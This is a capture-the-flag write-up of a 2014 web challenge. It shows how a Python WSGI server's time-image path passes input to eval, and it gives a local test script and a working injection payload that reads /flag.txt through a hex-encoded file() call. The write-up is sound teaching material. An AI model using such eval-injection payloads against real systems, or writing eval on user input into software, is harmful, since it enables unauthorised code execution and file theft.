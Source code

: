 ```yaml
---
title: "CSCAMP CTF 2014 - I Hate Time (Web)"
tags:
  - cscamp2014
  - writeup
  - web
---
```


Remote code execution by injecting python code into a Python WSGI server.

## Challenge Description

#### Points
400

#### Description

```
Tick Tock
hints: flag in /flag.txt
Possibly my favourite challenge from the CTF. It's a very simple website running
on a Python WSGI Server backend. It has a code injection vulnerability in its
time feature.
```


## Solution

The landing page looks like this:

Interesting regex, might be useful later. When trying to access robots.txt or
some random page, we receive the following 404:

Interesting image of the time now. Also, let's take a look at the source:

```html
<h1>Not Found</h1>
<img src="/images/now"/>
```

Looking at the source and the output, we can see that
http://178.63.58.69:8081/images/now gives you the current time dynamically. It
also looks very very suspiciously similar to the output of
`str(datetime.datetime.now())`.

I guessed the following was happening when we pass in our URL:

```python
eval("str(datetime.datetime.%s())" % hack)
```

where hack is the /image//. Now looking back at the index page, we can guess
that the regex there are the acceptable characters for this path.

So I wrote the following script to develop my exploit:

```python

import datetime
import re
import sys

def test_hack(hack):
    good = re.compile("[0-9 a-z A-Z / \" \+ , ( ) . # \[ \] =]+")
    assert good.match(hack), "There are invalid characters in your payload"
    return eval("str(datetime.datetime.%s())" % hack)

def main():
    payload = sys.argv[1]
    print test_hack(payload)

if __name__ == "__main__":
    main()
```

Testing my exploit locally:

```shell
amon@Evanna$ python testhack.py 'now().ctime()[0]+"["+file("2f666c61672e747874".decode("hex")).read()+"]".upper'
M[cool long ass flag thing lol]
```

Attacking the remote server through the URL:

Take a closer look at the generated image:

It contains our flag :D

Flag: **eVal\_is\_eVil**

